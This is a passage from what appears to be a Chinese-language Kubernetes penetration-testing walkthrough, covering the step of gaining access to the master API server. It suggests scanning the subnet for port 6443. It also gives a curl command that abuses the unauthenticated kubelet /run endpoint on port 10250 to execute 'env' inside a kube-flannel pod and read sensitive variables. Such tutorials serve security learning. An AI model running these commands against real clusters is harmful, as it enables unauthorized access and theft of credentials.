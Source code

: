 [![](assets/1701826061-9766614fbddbae6845eb5e971261884d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171017-50ebfe0a-7316-1.png)  
Step 5：获得 master 访问权  
接下来可以尝试获得 master(api server) 的访问权限，默认情况下 api server 开放的端口为 6443，所以可以通过扫描同个网段开放 6443 的主机来挨个尝试，除了这种方法还可以尝试执行 env 命令来查看是否有 api server 的地址或者其他敏感信息：

```plain
curl -k -XPOST "https://192.168.17.144:10250/run/kube-system/kube-flannel-ds-xwk2t/kube-flannel" -d "cmd=env"
```

[![](assets/1701826061-d8e30f93227496ba79d1c112dea9d572.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171053-660b416a-7316-1.png)
